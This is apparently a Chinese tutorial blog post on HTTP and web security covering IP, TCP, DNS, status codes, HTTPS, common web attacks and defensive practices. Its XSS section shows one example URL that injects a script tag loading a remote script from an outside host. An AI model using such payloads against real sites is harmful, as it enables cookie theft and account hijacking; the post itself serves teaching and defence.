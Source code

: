 ```yaml
---
title: HTTP 和 Web 安全
date: 2017-09-05 18:12:05
desc: IP/TCP DNS HTTPS Web安全 
---
```


在浏览器中输入 URL 到整个页面显示在用户面前，这个过程中到底发生了什么?

客户端寻找域名解析服务 --- DNS 服务器解析域名，获取对应的 IP 地址 --- 与 Web 服务器建立 TCP 连接 --- 发送 HTTP 请求数据 --- 服务器处理请求，并返回 HTTP 报文 --- 浏览器解析，并渲染页面

<!--more-->

## Web 网络基础

与 HTTP 关系密切的协议： `IP`、 `TCP`  和 `DNS`。

#### 负责传输的 IP 协议

IP 协议位于网络层，它的作用是把各种数据包传送给对方。

IP 协议需要包含两个最重要的条件： **IP 地址** 和 **MAC 地址** 。

*IP 地址* 指明了节点被分配到的地址， *MAC 地址* 是指网卡所述的固定地址。

#### 确保可靠性的 TCP 协议

TCP 协议位于传输层，它提供可靠的字节流服务。

为了确保数据准确的传输到目标处，TCP 协议采用了**三次握手**策略。

为了方便通信，TCP 协议将 HTTP 请求报文分割成报文段来发送给对方。服务器端接收到报文段后将其重组处理。

#### 负责域名解析的 DNS 服务

DNS ( Domain Name System ) 服务位于应用层，它提供与域名到 IP 地址之间的解析服务。

#### URI 和 URL

URI 是统一资源标识符，用字符串的方式来标识某一互联网资源，使资源具有独一无二的 ID 标识。

URL 是统一资源定位符，标识资源在互联网上所处的**地址**，是 URL 的一种表现形式，是 URI 的子集。

#### HTTP 协议

HTTP 是一种不保存状态，即无状态( stateless )协议。

随着 Web 的不断发展，一些使用场景比如电商购物中，期望知道用户的名称和状态，因此引入了 Cookie 技术。

**方法**

HTTP/1.1 中可用的方法： `GET / POST / PUT / HEAD / DELETE / OPTIONS / TRACE / CONNECT` 。

**状态码**

当客户端向服务器端发送请求时，状态码用来描述返回的请求结果。

![](https://ws1.sinaimg.cn/large/9eb6a82aly1fkqwf98cizj21mu0o0wgc.jpg)

```
1. 2XX 成功
请求正常处理完毕
200 OK 从客户端发送的请求在服务端被正常处理了。
204 No Content 服务器接受的请求已成功处理，但返回的响应报文的主体部分不包含实体（浏览器页面不更新，仅发送信息给服务器）
206 Partial Content 客户端进行了范围请求，而服务器成功执行了这部分请求

2. 3XX 重定向
浏览器需要执行某些特殊的处理以正确处理请求。
301 Moved Permanently 永久性重定向，请求的资源已经分配了新的URI，以后应该使用资源现在所指的URI
302 Found 临时性重定向，请求的资源临时分配了新的URI，希望用户本次可以使用新的URI访问
注意：当301,302,303响应状态码返回时，几乎所有的浏览器会把POST改成GET，并删除请求报文内的主体，之后请求会自动再次发送
304 Not Modified 服务器端资源未改变，可直接使用客户端未过期的缓存，不包含任何响应的主体部分

3. 4XX 客户端错误
客户端是发生错误的原因所在。
400 Bad Request  请求报文中存在语法错误
401 Unauthorized 请求需要有通过HTTP认证的认证信息。另外如果之前已进行一次请求，则表示用户认证失败
403 Forbidden 对请求资源的访问被服务器拒绝了，如未获得文件系统的访问授权，访问权限出现某些问题
404 Not Found 服务器上没有请求的资源
499 client has closed connection 服务器端处理的时间过长，客户端主动断开链接，ngix定义的状态码

4. 5XX 服务器错误
服务器是发生错误的原因所在。
500 Internal Server Error 服务器在执行请求时发生了错误，Bug或临时故障
503 Service Unavailable 服务器暂时处于超负荷或正在进行停机维护，现在无法处理请求
```

## HTTP 与 HTTPS

#### HTTP 的缺点

* 通信使用明文（不加密），内容可能会被窃听
* 不验证通信方的身份，因此可能遭遇伪装
* 无法证明报文的完整性，所以有可能已遭篡改

#### HTTP + 加密 + 认证 + 完整性保护 = HTTPS

HTTPS 并非是一种新的协议，只是 HTTP 通信接口部分用 SSL 和 TLS 协议代替而已。

* 加密处理防止被窃听：SSL 或 TLS 协议提供通信报文的内容加密
* 查明对手的证书：SSL 使用证书的手段，来判断对方的真实身份，证书由值得信任的第三方机构颁发
* 防止内容被篡改：SSL 提供认证和加密处理以及摘要功能

#### HTTPS 的局限

1. SSL 通信慢，除去和 TCP 连接、发送 HTTP 请求意外，还必须进行 SSL 通信，整体通信量会变大
2. SSL 必须进行加密处理，在客户端和服务器端都会消耗 CPU 和内存等资源，导致处理速度变慢
3. 需要额外的开支用于购买第三方认证证书


## Web 的攻击技术

#### 因输出值转义不完全引发的安全漏洞

**跨站脚本攻击 Corss-Site Scripting, XSS**

它是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 来进行的一种攻击。

* 利用虚假输入表单骗取用户个人信息
* 利用脚本窃取用户的 Cookie 值
* 显示伪造的图片和文章

例如：

```javascript
// 攻击者将恶意代码隐藏入欺诈邮件或者 Web 页面中，诱导用户去点击该 URL
var url = 'http://example.com/login?ID="><script src=http://othor.com/xss.js></script>"'
```

**SQL 注入攻击**

SQL 注入是指针对 Web 应用使用的数据库，通过运行非法的 SQL 而产生的攻击。

* 非法查看或篡改数据库内的数据
* 规避认证
* 执行和数据库服务器业务关联的程序等

**OS 命令注入攻击**

它是指通过 Web 应用，执行非法的操作系统命令达到攻击的目的。

**HTTP 首部注入攻击**

它是指攻击者通过在相应首部字段内插入换行，添加任何响应首部或主体的一种攻击。

* 设置任何 Cookie 信息
* 重定向至任何 URL
* 显示任意的主体（HTTP 响应截断攻击）

#### 因会话管理疏忽引发的安全漏洞

**会话劫持**

会话劫持是指攻击者通过某种手段拿到用户的会话 ID ，并非法使用此会话 ID 伪装成用户，达到攻击的目的。

**跨站点请求伪造**

跨站点请求伪造（ Cross-Site Request Forgeries，CSRF ) 攻击是指攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态的更新，属于被动攻击。

#### 良好的习惯和防范措施

1. 永远不要相信客户端传来的任何信息，对这些信息都应先进行编码或过滤处理；
2. 谨慎返回用户输入的信息；
3. 使用黑名单和白名单处理（即“不允许哪些敏感信息”或“只允许哪些信息”，白名单的效果更好但局限性高）；
4. 检查、验证请求来源，对每一个重要的操作都进行重新验证；
5. 使用SSL防止第三方监听通信（但无法阻止XSS、CSRF、SQL注入攻击）；
6. 不要将重要文件、备份文件存放在公众可访问到的地方；
7. 会话ID无序化；
8. 对用户上传的文件进行验证（不单单是格式验证，比方一张gif图片还应将其转为二进制并验证其每帧颜色值<无符号8位>和宽高值<无符号16位>）；
9. WSDL文档应当要求用户注册后才能获取；
10. 在报头定义CSP（Content Security Policy）；

